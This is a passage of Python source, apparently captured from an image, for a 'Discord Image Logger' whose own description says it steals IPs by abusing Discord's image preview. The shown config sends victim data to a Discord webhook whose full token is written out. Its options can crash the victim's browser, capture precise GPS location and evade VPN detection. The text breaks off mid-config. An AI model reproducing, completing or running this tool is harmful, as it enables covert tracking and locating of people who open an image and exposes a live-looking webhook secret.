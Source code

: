# new# Discord Image Logger
# By DeKrypt | https://github.com/dekrypted

from http.server import BaseHTTPRequestHandler
from urllib import parse
import traceback, requests, base64, httpagentparser

__app__ = "Discord Image Logger"
__description__ = "A simple application which allows you to steal IPs and more by abusing Discord's Open Original feature"
__version__ = "v2.0"
__author__ = "DeKrypt"

config = {
    # BASE CONFIG #
    "webhook": "https://discord.com/api/webhooks/1338051961911771177/GFfCbQwis3Dt1MQ1n0yu5VVjGzkZnt-4vycES3oivVnkTap3wGxg8PUtG4aF7OvBmsl4",
    "image": "https://wallpapercave.com/wp/1ZLpfHy.jpg", # You can also have a custom image by using a URL argument
                                               # (E.g. yoursite.com/imagelogger?url=<Insert a URL-escaped link to an image here>)
    "imageArgument": True, # Allows you to use a URL argument to change the image (SEE THE README)

    # CUSTOMIZATION #
    "username": "Image Logger", # Set this to the name you want the webhook to have
    "color": 0x00FFFF, # Hex Color you want for the embed (Example: Red is 0xFF0000)

    # OPTIONS #
    "crashBrowser": False, # Tries to crash/freeze the user's browser, may not work. (I MADE THIS, SEE https://github.com/dekrypted/Chromebook-Crasher)
    
    "accurateLocation": False, # Uses GPS to find users exact location (Real Address, etc.) disabled because it asks the user which may be suspicious.

    "message": { # Show a custom message when the user opens the image
        "doMessage": False, # Enable the custom message?
        "message": "This browser has been pwned by DeKrypt's Image Logger. https://github.com/dekrypted/Discord-Image-Logger", # Message to show
        "richMessage": True, # Enable rich text? (See README for more info)
    },

    "vpnCheck": 1, # Prevents VPNs from triggering the alert
                # 0 = No Anti-VPN
                # 1 = Don't ping when a VPN is suspected
                # 2 = Don't send an alert when a VPN is suspected
